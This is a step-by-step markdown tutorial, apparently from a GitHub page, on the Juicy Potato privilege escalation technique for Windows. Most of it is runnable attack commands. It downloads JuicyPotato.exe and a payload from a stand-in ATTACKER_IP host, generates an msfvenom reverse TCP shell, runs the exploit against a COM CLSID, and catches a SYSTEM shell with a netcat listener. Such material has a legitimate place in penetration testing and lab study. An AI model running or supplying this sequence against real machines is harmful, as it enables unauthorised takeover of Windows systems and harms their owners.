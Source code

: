 **Juicy Potato** is a privilege escalation technique that abuses the way Windows handles COM services and token impersonation. It allows a user with **SeImpersonatePrivilege** (often granted to service accounts) to spawn a process with SYSTEM privileges by hijacking a trusted service call. This method is especially effective on Windows systems vulnerable to **token kidnapping**.

---

## 1. Verify SeImpersonatePrivilege

Check if your current user has the required privilege.

```powershell
whoami /priv
```

Look for:

```
SeImpersonatePrivilege Enabled
```

If present, you can proceed with Juicy Potato.

---

## 2. Download Juicy Potato Executable

You’ll need the Juicy Potato binary (`JuicyPotato.exe`). You can find it on GitHub or trusted repositories.

Transfer it to the target Windows machine using SMB, HTTP, or other methods.

```bash
# Example using Python HTTP server
python3 -m http.server 8080
```

On Windows:

```powershell
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/JuicyPotato.exe" -OutFile "C:\Users\Public\JuicyPotato.exe"
```

---

## 3. Generate a Reverse Shell Payload

Create a payload using `msfvenom` that will be executed with SYSTEM privileges.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f exe -o revshell.exe
```

---

## 4. Transfer the Payload to the Target

Same method as before:

```powershell
Invoke-WebRequest -Uri "http://ATTACKER_IP:8080/revshell.exe" -OutFile "C:\Users\Public\revshell.exe"
```

---

## 5. Find a Suitable CLSID

Juicy Potato requires a CLSID of a COM service that can be hijacked. You can use known CLSIDs or scan for them using tools like `Potato.exe` or reference lists.

Example CLSID:

```
{e60687f7-01a1-40aa-86ac-db1cbf673334}
```

---

## 6. Execute Juicy Potato

Run Juicy Potato with the required parameters:

```cmd
JuicyPotato.exe -l 1337 -p C:\Users\Public\revshell.exe -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```

- `-l`: Listening port for COM hijack
- `-p`: Path to your payload
- `-t *`: Use any token type
- `-c`: CLSID of the COM service

---

## 7. **Catch the Reverse Shell

Start your listener on Kali:

```bash
nc -lvnp YOUR_PORT
```

Once Juicy Potato executes the payload, you should receive a SYSTEM-level shell.
